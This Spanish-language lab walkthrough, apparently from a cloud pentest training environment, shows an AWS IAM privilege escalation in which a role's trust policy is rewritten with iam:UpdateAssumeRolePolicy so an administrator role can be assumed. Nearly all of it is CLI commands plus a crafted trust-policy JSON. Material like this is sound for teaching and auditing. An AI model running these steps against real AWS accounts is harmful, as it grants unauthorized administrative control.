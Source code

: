 # Actualización de una AssumeRolePolicy
## iam:UpdateAssumeRolePolicy  
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14-UpdatingAssumeRolePolicy-role --role-session-name privesc14  
aws sts get-caller-identity --profile privesc14  
Crear un archivo assume-role-policy.json  

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

aws iam update-assume-role-policy --role-name Rol-Administrador --policy-document file://assume-role-policy.json --profile privesc14  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrador --role-session-name privesc14admin --profile privesc14  

